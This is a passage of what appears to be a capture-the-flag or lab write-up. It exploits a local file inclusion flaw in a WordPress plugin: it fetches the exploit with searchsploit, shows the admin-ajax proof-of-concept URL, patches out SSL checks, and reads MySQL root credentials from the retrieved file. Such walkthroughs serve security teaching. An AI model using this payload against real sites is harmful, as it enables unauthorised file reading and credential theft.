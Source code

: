     searchsploit -m exploits/php/webapps/39646.py

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550884138707_image.png)


*investigating the code for how it works and what is required to use the exploit.*


    POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

*How we will need to craft our entry.*


# LFI

Modifying the exploit
The exploit requires SSL to function properly but as we know this environment thats not going to happen. We need to bypass that ssl check and after some tinkering I found a solution.

before modification:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885414575_image.png)


Adding

    #adding the following the the exploit
    import os, ssl
    
    if (not os.environ.get('PYTHONHTTPSVERIFY', '') and
        getattr(ssl, '_create_unverified_context', None)): 
        ssl._create_default_https_context = ssl._create_unverified_context 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885469166_image.png)


*After modification and running of application we now have a new blog post*

New blog post from exploit:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885537646_image.png)



![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885580171_image.png)


*file uploaded to* `*uploads*` *as expected.*

Download file locally and take a look inside!

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885710280_image.png)


*MySQL credentials have been captured.*


    MySQL 
    user: root
    password: plbkac
